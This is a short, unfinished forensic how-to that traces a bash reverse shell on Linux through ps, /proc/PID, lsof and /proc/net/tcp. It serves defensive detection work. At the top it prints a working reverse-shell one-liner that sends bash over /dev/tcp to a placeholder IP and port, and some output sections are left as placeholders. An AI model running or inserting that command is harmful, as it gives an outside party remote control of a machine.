 # Tracking Activity using PID
## reverse shells
```bash
bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

## List processes running
```bash
ps -auxw
```
Listing the processes should allow you to see the bash shell running. The shell will have the interactive (-i) flag. In general, this isn't terribly common and is a good place to start. 

```
add example of what the output will look like from ps command
```



## Change Directory to /proc/PID of the suspicious process
```bash

cd /proc/PID
ls -al
```

```bash
show out up
```

look for exe -> /usr/bin/bash
This shows the reverse shell is connected to this executable
```bash
show out up
```



##
```bash
/proc/PID/fd
ls -al
```
you can see that stdin, stdout, and stderr are all connected to sockets and the inode number that we will see again later. This is a red flag. 
find out what those socket types are. Look for weird files open, payload dirs, etc.


## Search for file opened by this reverse shell
```bash
lsof -p PID
```
this will show the ip addresses of the remote host it has conencted to. Can also use tools like netstat or ss to see open sockets.


## check out /proc/net/tcp 
This will list all open TCP sockets and is the raw data networking tools use to show what is happening. Here we see the inode # of the open sockets and that they are connected to something with TCP.

```bash
cat /proc/net/tcp
```
This will show you the inode number that should match with the inode number shown when seeing the connection to stdin, stdout, stderr. 



### References:
 - https://x.com/craighrowland/status/1802850025443336414

